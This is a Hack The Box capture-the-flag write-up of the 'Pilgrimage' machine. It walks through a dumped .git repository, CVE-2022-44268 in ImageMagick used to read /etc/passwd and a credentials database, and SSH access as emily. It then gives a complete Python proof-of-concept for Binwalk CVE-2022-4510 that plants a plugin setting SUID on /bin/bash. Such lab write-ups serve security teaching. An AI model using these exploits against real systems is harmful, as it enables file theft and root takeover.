# Pilgrimage Writeup - by Thammanant Thamtaranon  

- Pilgrimage is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- I began with a full TCP port scan including service/version detection and OS fingerprinting:  `nmap -A -T4 -p- 10.10.11.219`  

  

- The scan revealed two open ports:  
  - 22 (SSH)  
  - 80 (HTTP)  

- I added `pilgrimage.htb` to `/etc/hosts` for proper hostname resolution.

## Scanning & Enumeration  
- I performed directory brute-forcing using `dirsearch`:  `dirsearch -u http://pilgrimage.htb`  

  
  

- The scan revealed a user named `emily` in the `COMMIT_EDITMSG` file.  
- Vhost enumeration yielded no results.  
- The cookie section indicated the application was PHP-based.  

- Discovering the `.git` directory, I used GitTools to dump the repository data:  `./../GitTools/Dumper/gitdumper.sh http://pilgrimage.htb/.git/ ../Downloads/dump`  

  

- After encountering errors, I ran `git fsck` which revealed a missing blob:  
  

- I created a directory and downloaded the missing blob:  
  

- After verifying git's recognition:  
  

- I ran `git checkout .` to restore files:  
  

- Inspecting `index.php` revealed the website uses ImageMagick:  
  

- Checking the version:  
`./magick -version`  
  

- Research led me to discover **CVE-2022-44268** affecting ImageMagick 7.1.

## Exploitation  
- I obtained a proof-of-concept exploit and executed it:  
  

- After uploading the malicious PNG and downloading the processed version, I used `identify` to extract the injected data:  
  
  

- Decoding the hex data: 
```
python3 -c "hex_data = '''726f6f743a783a303a303a726f6f743a2f726[...]'''.replace('\n','')
print(bytes.fromhex(hex_data).decode('utf-8'))"
```

- This revealed the contents of `/etc/passwd`, confirming user `emily`:  
  

- Attempts to access `.ssh` and config files failed. Further code inspection revealed a database at `/var/db/pilgrimage`.  

- Converting the extracted data to a `.db` file:  `echo "53514c69746520666f726d617420330010000101004020200000004500..." | xxd -r -p > extracted.db`  

- This revealed emily's credentials:  
  

- Using these credentials, I accessed the machine via SSH and obtained the user flag:  
  

## Privilege Escalation  
- Checking sudo permissions showed emily had none:  `sudo -l`  

- Listing running services revealed `malwarescan.service`:  `systemctl list-units --type=service --state=running`  
  

- Inspecting the service:  `systemctl status malwarescan.service`  
  

- The service script `malwarescan.sh` used Binwalk v2.3.2:  
  
  

- Research led to **CVE-2022-4510**, a command injection vulnerability in Binwalk.  

I modified a PoC script to add SUID to `/bin/bash`:
```
    import os
    import argparse

    header_pfs = bytes.fromhex("5046532f302e390000000000000001002e2e2f2e2e2f2e2e2f2e636f6e6669672f62696e77616c6b2f706c7567696e732f62696e77616c6b2e70790000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000034120000a0000000c100002e")

    payload = """import binwalk.core.plugin
    import os
    class DirectRootPlugin(binwalk.core.plugin.Plugin):
        def init(self):
            # SUID bash
            os.system("chmod 4755 /bin/bash")
    """

    with open("input.png", "wb") as f:
        f.write(b"\x89PNG\r\n\x1a\n")

    with open("input.png", "rb") as f:
        data = f.read()

    with open("exploit.png", "wb") as f:
        f.write(data)
        f.write(header_pfs)
        f.write(payload.encode())
```

- This granted root access via `/bin/bash -p`:  
  

- Finally, I obtained the root flag, completing the machine.
